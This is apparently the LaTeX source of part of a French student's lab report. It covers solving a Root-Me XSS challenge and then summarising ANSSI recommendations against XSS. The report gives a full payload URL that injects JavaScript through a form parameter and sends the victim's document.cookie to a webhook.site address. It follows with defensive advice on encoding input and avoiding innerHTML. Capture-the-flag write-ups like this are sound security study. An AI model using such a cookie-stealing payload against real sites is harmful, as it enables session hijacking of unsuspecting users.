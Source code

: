 \documentclass[12pt,a4paper]{article}
\begin{document}
J'ai donc essayé de faire la même chose avec la requête depuis le formulaire de contact, cette fois-ci en tenant compte du format imposé dans le champs du formulaire, avec l'url suivante : \url{http://challenge01.root-me.org/web-client/ch32/index.php?number=test\%27;\\\%20document.location=\%22https://webhook.site/ec7d4396-2f5f-436d-bdc7-1db1e8c78cd5?cmd=\%22.concat(document.cookie);//}



\begin{figure}[!h]
	\centering
	\includegraphics[scale=.3]{xss_webhook_2.png}
	\caption{webhook 2}
\end{figure}

En bas de la page, on obtiens le flag

\begin{figure}[!h]
	\centering
	\includegraphics[scale=.45]{xss_reussi_rootme.png}
	\caption{Challenge réussi}
\end{figure}

	\subsection{Les recommandations ANSSI contre les vulnerabilités XSS}
	
	\textit{Expliquez les recommandations ANSSI contre les vulnerabilités XSS.}
	
	Encoder les données entrées, surtout celles entrées du côté client/navigateur d'une application
	Utiliser textContent ou l'API DOM pour manipuler le DOM, plutôt que des méthodes JavasCript qui injectent du code HTML, comme innerHTML par exemple. 
	
	
	
	Les pages HTML ne doivent pas contenir de code CSS ou JavaScript 
	
	
\end{document}
